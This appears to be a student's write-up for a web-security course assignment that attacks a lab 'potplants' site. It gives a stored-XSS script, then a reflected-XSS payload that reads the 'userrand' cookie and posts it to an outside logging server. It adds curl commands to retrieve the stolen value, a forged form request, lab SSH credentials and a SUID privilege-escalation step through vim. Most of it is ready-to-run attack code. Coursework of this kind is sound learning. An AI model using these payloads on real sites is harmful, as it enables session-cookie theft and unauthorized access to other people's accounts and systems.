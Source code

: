 # Assignment 4 - Cross-Site Scripting (XSS)
## Part A. Stored XSS
Send a `GET` request to `/plants/shareall` using XSS without attacking yourself. The payload: [@jQuery], [@jscookies]

```html
<script>
function readCookie(name) {
    var nameEQ = name + "=";
    var ca = document.cookie.split(';');
    for (var i = 0; i < ca.length; i++) {
        var c = ca[i];
        while (c.charAt(0) == ' ') c = c.substring(1, c.length);
        if (c.indexOf(nameEQ) == 0) return c.substring(nameEQ.length, c.length);
    }
    return null;
}
if (readCookie("userrand")!="b9f6f3e2da30adaaedba6e40c1fb6cb0"){
    $.get("/plants/shareall");
};
</script>
```




## Part B. Reflected XSS
`http://potplants1.vikaa.fi:36932/<exploit>` where `<exploit>` is:

```html
<script>
function readCookie(name) {
    var nameEQ = name + "=";
    var ca = document.cookie.split(';');
    for (var i = 0; i < ca.length; i++) {
        var c = ca[i];
        while (c.charAt(0) == ' ') c = c.substring(1, c.length);
        if (c.indexOf(nameEQ) == 0) return c.substring(nameEQ.length, c.length);
    }
    return null;
}
var cookie = readCookie("userrand");
$.post("https://infosec1.vikaa.fi/logs", {"key": "itsme5932", "value": cookie})
</script>
```

The whole exploit in inline format.
```
http://potplants1.vikaa.fi:36932/<script> function readCookie(name) { var nameEQ = name + "="; var ca = document.cookie.split(';'); for (var i = 0; i < ca.length; i++) { var c = ca[i]; while (c.charAt(0) == ' ') c = c.substring(1, c.length); if (c.indexOf(nameEQ) == 0) return c.substring(nameEQ.length, c.length); } return null; } var cookie = readCookie("userrand"); $.post("https://infosec1.vikaa.fi/logs", {"key": "itsme5932", "value": cookie}) </script>
```

<!-- Submit data
```
curl -d '{"key": "itsme5932", "value": "b8915d46adab62eb0fd12"}' https://infosec1.vikaa.fi/logs
``` -->

Retvieve the stolen data from the server.
```
curl https://infosec1.vikaa.fi/logs/itsme5932
```

---

<!-- ```js
{"name": "I was hacked", "color": "red", "planttype": "plant", "potsize": "1", "shared": "yes"}
``` -->

<!-- ```bash
curl -X POST -H 'Content-Type: application/json' --cookie "c5496084520631fc21bd99691b60ef12" -d '{"name": "I was hacked", "color": "red", "planttype": "plant", "potsize": "1", "shared": "yes", "_csrf": "vCBhHTQY-jNZiMl7kU_4enF1PqpUtpx1a1WI"}' http://potplants1.vikaa.fi:36932/plants/add
``` -->

- https://davidwalsh.name/curl-post-file


## Part C. Priviledge Escalation
Connect to the ssh server as `cloud-user knEeGPyr`.
```bash
ssh cloud-user@infosec1.vikaa.fi -p 36735
```

Find all the executables that have SUID bit set. [@linux_priviledge_escalation]
```
find / -perm -u=s -type f 2>/dev/null
```

It seems that `vim.basic` has SUID bit set. We can use it to write the file:
```bash
/urs/bin/vim.basic /home/admin/i_was_hacked.txt
```

In insert mode `i` write `<student_number>` then escape `esc` and quit `:q`.


## References
